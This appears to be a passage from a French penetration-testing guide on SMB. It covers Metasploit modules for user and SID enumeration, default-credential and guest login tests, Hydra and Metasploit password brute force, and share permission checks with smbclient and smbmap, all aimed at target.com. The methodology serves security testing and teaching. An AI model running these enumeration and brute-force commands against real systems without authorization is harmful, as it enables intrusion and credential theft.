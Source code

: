 ### Metasploit - User Enumeration
```bash
msfconsole

# 1. SMB User enumeration
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS target.com
run

# 2. SID Lookup pour brute force users
use auxiliary/scanner/smb/smb_lookupsid
set RHOSTS target.com
set MaxRID 1000      # Jusqu'à RID 1000
run

# 3. SAMR (Security Account Manager Remote) enumeration
use auxiliary/scanner/smb/smb_enumusers_domain
set RHOSTS target.com
run
```

## 🔐 Phase 4 : Test des Credentials et Permissions

### Tests de Connexion
```bash
# 1. Test avec credentials par défaut
smbclient -L //target.com -U guest -N
smbclient -L //target.com -U administrator

# 2. Test avec liste d'utilisateurs
for user in admin administrator guest; do
    echo "Testing $user"
    smbclient -L //target.com -U $user -N 2>/dev/null
done

# 3. Test avec Hydra (brute force)
hydra -L users.txt -P passwords.txt target.com smb

# 4. Test avec Metasploit
msfconsole
use auxiliary/scanner/smb/smb_login
set RHOSTS target.com
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

### Test des Permissions sur Partages
```bash
# 1. Test lecture/écriture avec smbclient
smbclient //target.com/sharename -N
# smb: \> put testfile.txt    # Test écriture
# smb: \> get existing.txt    # Test lecture

# 2. Avec smbmap pour permissions détaillées
smbmap -H target.com -u guest -p ""

# Résultat type :
# [+] Finding open SMB ports....
# [+] Guest SMB session established on target.com...
# [+] IP: target.com:445  Name: unknown
#         Disk            Permissions
#         ----            -----------
```